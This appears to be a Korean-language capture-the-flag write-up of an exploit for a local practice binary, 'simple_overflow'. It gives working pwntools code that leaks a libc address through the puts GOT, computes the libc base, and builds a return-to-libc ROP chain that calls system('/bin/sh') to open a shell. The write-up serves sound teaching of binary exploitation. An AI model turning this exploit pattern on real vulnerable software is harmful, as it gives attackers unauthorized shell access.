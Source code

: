 여기서 사용하고 있는 함수 `scanf, puts, read`로 함수의 GOT을 읽어오고, `read`를 통한 ROP가 가능하다. `read` 함수가 한 번 존재하므로 GOP를 읽어오고 Main으로 다시 넘어가 Exploit으로 read를 한 번 더 진행하겠습니다.

```python
from pwn import *

def slog(name, addr):
        return success(": ".join([name, hex(addr)]))

p = process('./simple_overflow')
e = ELF('./simple_overflow')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
r = ROP(e)

puts_plt = e.plt['puts'] # puts 호출용
puts_got = e.got['puts'] # puts의 got 값
main = e.symbols['main'] # main 호출용

pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
# pop_rdi = 0x401333
binsh_offset = list(libc.search(b'/bin/sh\x00'))[0] 
# /bin/sh\x00 값 검색
ret = r.find_gadget(['ret'])[0]
# ret = 0x40101a
slog('puts_plt', puts_plt)
slog('puts_got', puts_got)
slog('main', main)
slog('binsh_offset', binsh_offset)
```

`puts_got`를 인자를 넣어 `puts_plt`를 통해 puts를 호출하며 libc_base 주소를 알아내기 위해 사용한다.

```python
p.sendline('2147483648') # int 범위 초과

payload = b'A' * 0x18 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
p.sendline(payload)
p.recvuntil('A' * 0x18)
p.recvline()

puts = u64(p.recvn(6) + b'\x00' * 2)
slog('puts', puts)
lb = puts - libc.symbols['puts']
system = lb + libc.symbols['system']
bin_sh = lb + binsh_offset
```

`puts`의 인자는 하나기에 **pop_rdi**를 사용했고, `puts_got`를 출력하기로 했으므로 해당 값을 `symbols`를 통한 offset과 값을 빼면 libc_base가 나온다.

해당 값의 system의 offset을 더한다면 `system`의 주소가 나오게 된다.

```python
p.sendline('2147483648')
payload = b'A' * 0x18
payload += p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
p.sendline(payload)
p.interactive()
```
